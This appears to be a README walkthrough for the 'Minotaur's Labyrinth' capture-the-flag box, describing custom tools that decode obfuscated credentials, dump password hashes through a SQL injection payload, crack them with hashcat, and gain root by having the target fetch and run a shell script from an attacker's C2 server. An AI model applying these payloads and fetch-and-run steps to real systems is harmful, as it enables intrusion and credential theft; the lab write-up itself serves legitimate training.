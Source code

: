# Minotaur's Labyrinth: Walkthrough

## Custom Exploit Tools

### Stage 1: Password Grabber

To access the restricted area of the website, the user must pass a credential check. After manually enumerating the website and following referenced custom scripts, it is obvious that the `login.js` script referenced in the `login.html` source contains obfuscated credentials of a user `Daedalus`. The credentials are hidden in the comments of the script and are disguised as a string built by array indicies. 

```javascript
function pwdgen() {
    a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
    b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
    c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
}
//pwd gen for Daedalus a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8]
// 
```

The [golang program](stage1.go) in this repository:

> 1. reaches out to the target and pulls down the `login.js` file
> 2. searches for the password arrays (`a`, `b`, `c`)
> 3. searches for Daedalus' password array in the comments
> 4. uses the reference arrays to build Daedalus' password
> 5. displays the extracted credentials to the user

The attacker can then use these credentials to either login to the site and proceed with the attack, or pass the credentials into another tool to automate the takeover of the target.

### Stage 2: SQLi Injector

To leverage the credentials obtained in the [first attack](#Password Grabber) a tool was written in Python3. This tool extracts users and password hashes from the database using a SQLi vulnerability present in the dashboard of an authenticated user. 

After the user authenticates, they are brought to a dashboard where they can search for people and creatures. This search form reaches out and contacts `api/<creatures/people>/search` and has a SQL injection (SQLi) vulnerability present. If an attacker inputs the search string `' OR 1=1;--` they will get a dump of all the creatures or people in the database. This also displays the creatures' and people's password hashes.

After this script is run the attacker must manually crack the hashes using a tool like hashcat, john, or [crackstation](https://crackstation.net).

Hashcat Command:

```bash
hashcat -m 0 -a 0 <hash_file> <wordlist>
```

*The password can be found in the rockyou wordlist.*

Command To Execute Stage 2:

```bash
./exploit.py $TARGET daedalus <password> stage2 -a
```

*Note
The [script](exploit.py) for stage 2 is alsoused to execute stage 3, becuase stage 3 uses some of the same process as stage 2.*

### Stage 3: Foothold

After the attacker authentictes and pulls down the user hashes, they will find that M!n0taur has an easily crackable password hash. This leaks M!n0taur's credentials and allows the attacker to login as M!n0taur (an admin). Once logged in as admin, there is both a web flag and a new page accessible. This new page allows the attacker to run the `echo` command on the target machine and opens up the target to RCE.

Command To Execute Stage 3:

```bash
./exploit.py $TARGET M\!n0taur <password> stage3 -c <C2IP>:<C2PORT> -b
```

If desired, the user can also specify `-s` to specify the name of the script the exploit will pull down from the C2 server. The default script name is `rooter.sh`.

*Note The `-b` option builds a pre-witten script that will pull down a file called `mshell` from the attacker's C2 server and uses the privilege escalation vector to have it run as root.*
